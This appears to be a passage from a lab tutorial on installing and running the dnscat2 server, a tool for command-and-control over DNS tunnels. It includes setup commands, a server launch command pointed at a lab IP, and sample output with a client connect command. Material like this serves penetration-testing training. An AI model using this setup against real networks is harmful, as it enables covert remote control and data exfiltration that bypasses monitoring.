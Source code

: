 
#### **Issue Resolution for System Packages**
```bash
# If system package fails with Ruby errors:
# NameError: uninitialized constant Packet::EncBody::Bignum
# NameError: uninitialized constant DNSer::Packet::MX::Fixnum

# Solution: Use git version instead (recommended)
cd ~
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo bundle install
```

#### **Other Installation Methods**
```bash
# From Ruby gems
sudo gem install dnscat2

# Manual compilation (client)
cd ../client/
make
```

### **Starting the Dnscat2 Server**

#### **Basic Server Configuration**

**Method 1: System Package Command**
```bash
# Start dnscat2 server using system package
sudo dnscat2-server --dns host=10.10.14.18,port=53,domain=htblabs.local --no-cache

# Command breakdown:
# --dns host=IP        - server IP address
# port=53              - DNS port (standard)
# domain=DOMAIN        - domain for DNS queries
# --no-cache           - disable DNS caching
```

**Method 2: Manual Setup Command**
```bash
# Start dnscat2 server from cloned repository
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=htblabs.local --no-cache

# Same parameters as above
```

#### **Expected Server Output**
```
New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

```